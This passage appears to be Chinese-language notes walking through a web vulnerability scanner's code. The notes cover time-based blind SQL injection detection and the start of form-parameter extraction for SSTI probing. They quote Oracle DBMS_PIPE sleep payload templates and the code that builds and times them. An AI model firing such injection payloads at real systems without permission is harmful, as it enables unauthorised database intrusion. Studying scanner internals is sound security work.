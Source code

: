 ```python
        "AND 3437=DBMS_PIPE.RECEIVE_MESSAGE(CHR(100)||CHR(119)||CHR(112)||CHR(71),{})".format(self.sleep_str),
        "AND 3437=DBMS_PIPE.RECEIVE_MESSAGE(CHR(100)||CHR(119)||CHR(112)||CHR(71),{})--+".format(
            self.sleep_str),
    )
}
```
sleep time 是5s  

```python
    sleep_time = 5
    sleep_str = "[SLEEP_TIME]"
```

生成payload  
这里是把 `[SLEEP_TIME]` 换成 sleep_time 即5s  
生成了两个一个是5s的一个是0s的  
```python
def generatePayloads(self, payloadTemplate, origin_dict):
    """
    根据payload模板生成时间盲注所需要的不同响应时间的payload
    @param payloadTemplate:
    @param origin_dict:
    @return:
    """
    new_dict = origin_dict.copy()
    zero_dict = origin_dict.copy()
    for k, v in new_dict.items():
        new_dict[k] = v + payloadTemplate.replace(self.sleep_str, str(self.sleep_time))
        # 如果取 2*sleep_time 可能会更准确
        zero_dict[k] = v + payloadTemplate.replace(self.sleep_str, "0")

    return new_dict, zero_dict
```

这两个都发起请求测试并计时  

如果sleep5s的响应时间大于0s的大0 

计算相差时间 `delta = round(delta1 - delta0, 3)`  
这里的时间差用的是随机 本来的时间差到3中取值 这块不是很理解 ??? 

默认是验证两次即会测试两次来确认  


#### ssti ssti模板注入探测


先从响应页面中获取表单参数  
解析html  
如果标签是input 获取绑定的key和value  
如果key的值是name 那么result加入这个value值  
如果是script 那么获取里面的值并且使用 `pyjsparser`解析这段js代码获取body
```python
def getParamsFromHtml(html):
    parse = MyHTMLParser()
    parse.feed(html)
    tokens = parse.getTokenizer()
    result = set()
    for token in tokens:
        tagname = token["tagname"].lower()
        if tagname == "input":
            for attibute in token["attibutes"]:
                key, value = attibute
                if key == "name":
                    result.add(value)
                    break
        elif tagname == "script":
```